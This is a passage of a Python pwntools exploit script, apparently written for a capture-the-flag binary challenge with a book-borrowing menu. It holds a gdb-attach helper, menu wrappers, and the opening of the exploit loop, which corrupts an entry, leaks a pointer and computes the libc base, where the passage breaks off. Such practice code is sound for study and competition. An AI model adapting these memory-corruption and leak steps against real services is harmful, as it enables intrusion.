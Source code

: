```python
        processes = [dict(zip(titles, proc)) for proc in processes_info['Processes']]
        target_proc = []
        for proc in processes:
            cmd = proc.get('CMD', '')
            exe_path = cmd.split()[0] if cmd else ''
            exe_name = path.basename(exe_path)
            if exe_name == proc_name:
                target_proc.append(proc)
        idx = 0
        if len(target_proc) > 1:
            for i, v in enumerate(target_proc):
                print(f"{i} => {v}")
            idx = int(input(f"Which one:"))
        import tempfile
        with tempfile.NamedTemporaryFile(prefix = 'cpwn-gdbscript-', delete=False, suffix = '.gdb', mode = 'w') as tmp:
            tmp.write(f'shell rm {tmp.name}\n{gs}')
        print(tmp.name)
        run_in_new_terminal(["sudo", "gdb", "-p", target_proc[idx]['PID'], "-x", tmp.name])
        return p
    else:
        return process(elf.path)

def cho(choice):
    io.sendlineafter(b"choice:", str(choice).encode())

def add(name):
    cho(1)
    io.sendlineafter(b"borrow?", name.encode())

def rm(name):
    cho(2)
    io.sendlineafter(b"rn?", name.encode())

def edit(idx, off, content):
    cho(3)
    io.sendlineafter(b"read?", str(idx).encode())
    io.sendlineafter(b"page:", str(off).encode())
    io.sendafter(b"write:", content)

def show():
    cho(8)


while True:
    try:
        io = start()

        add('maimaima')
        add('chunithm')


        edit(0, 15, p64(0x114514))
        show()

        io.recvuntil(b"[")
        leak = io.recvuntil(b"]")
        leak = leak.decode('utf-8')[4:-12]
        # 将每个字符转换为4位16进制后，按小端序倒序排列
        leak_unicode = ''.join(f"{ord(c):04x}" for c in reversed(leak))
        leak_off = 0x7c663ceaaa26 - 0x7c663ce00000
        libc_addr = int(leak_unicode,16) - leak_off
        log.info(f"libc_addr: {hex(libc_addr)}")
```